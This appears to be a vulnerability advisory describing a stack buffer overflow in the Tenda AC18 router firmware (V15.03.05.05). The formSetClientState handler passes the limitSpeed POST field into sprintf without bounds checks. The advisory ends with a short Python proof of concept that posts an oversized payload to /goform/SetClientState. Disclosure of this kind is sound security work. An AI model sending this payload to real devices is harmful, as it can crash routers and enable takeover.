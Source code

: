 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v11` variable receives the `limitSpeed` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `limitSpeed` can trigger this security vulnerability.

![image-20240306000228236](formSetClientState_limitSpeed.assets/image-20240306000228236.png)

![image-20240305223452318](formSetClientState_limitSpeed.assets/image-20240305223452318.png)

![image-20240305223505596](formSetClientState_limitSpeed.assets/image-20240305223505596.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000


data = {'limitEn':1,"limitSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305223317174](formSetClientState_limitSpeed.assets/image-20240305223317174.png)
